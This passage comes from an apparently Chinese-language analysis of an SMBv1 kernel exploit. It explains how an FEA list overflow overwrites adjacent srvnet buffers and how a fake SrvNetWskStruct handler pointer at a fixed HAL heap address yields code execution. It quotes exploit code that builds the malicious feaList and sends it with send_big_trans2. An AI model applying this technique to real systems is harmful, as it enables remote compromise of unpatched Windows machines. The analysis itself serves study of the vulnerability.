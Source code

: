 -   如何利用漏洞1的越界来触发命令执行
-   如何利用漏洞2传入FEA LIST，也就是可控的数据用来触发漏洞1
-   漏洞3只是进行了Non-Paged
    pool申请，实现了占坑但没有进行释放，内部布局如何构造

0x02 越界如何触发命令执行
-------------------------

为了触发命令执行，这里引出关键数据结构srvnet，其中有2个关键字段：

-   MDL(pMDl1): memory descriptor
    list;将I/O数据写入到指定的MDL指定虚拟地址中，在实际利用中client发送的数据会写入到指定的虚拟地址中，这样就可以传入可控的数据到指定的地址
-   pSrvNetWskStruct:
    指向SrvNetWskStruct结构体，该结构体中存在一个函数指针HandlerFunction，该函数会在srvnet连接中断时进行调用；那么如果pSrvNetWskStruct指向的结构体是伪造的，那么就可以很顺利的触发命令执行

这里利用的地址为HAL的heap的固定地址，因为在该段地址是可执行的

    0xffd00000   # 32位
    0xffffffff ffd00000 # 64位

只要能通过越界控制这两个字段就可以了，但如何将srv buff和srvnet
buff拼接到一起？

0x03 如何通过请求触发漏洞
-------------------------

这里结合exp，来看整个请求流程是如何进行的：

srv分配：SMBv1数据包可以触发srv的内存申请，类型为paged或者non-paged pool

srvnet分配：
SMBv2数据包可以触发srvnet的内存申请，类型为paged或者non-paged pool

一、发送fealist分配srv：

    send_big_trans2(conn, tid, 0, feaList, '\x00'*30, 2000, False)

这里利用了漏洞2并且保留最后的fragment不发送，其中fealist的内容如下：

    NTFEA_SIZE = 0x11000
    ntfea11000 = (pack('<BBH', 0, 0, 0) + '\x00')*600  # 这里对应的ntfea size是0x1c20，因为每一条fea记录转化为NTfea时都会增加5个字节
    ntfea11000 += pack('<BBH', 0, 0, 0xf3bd) + 'A'*0xf3be  # 0x10fe8 - 0x1c20 - 0xc = 0xf3bc
    ntfea = { 0x10000 : ntfea10000, 0x11000 : ntfea11000 }
    feaList = pack('<I', 0x10000)
    feaList += ntfea[NTFEA_SIZE]
    feaList += pack('<BBH', 0, 0, len(fakeSrvNetBuffer)-1) + fakeSrvNetBuffer    # 需要越界覆盖的东西
    feaList += pack('<BBH', 0x12, 0x34, 0x5678) # 无效的记录，会触发转换异常

这里对应的fealist的结构体如下：

    typedef struct _FEA {   /* fea */
        BYTE fEA;        /* flags*/
        BYTE cbName;     /* name length not including NULL */
        USHORT cbValue;  /* value length */
    } FEA, *PFEA;

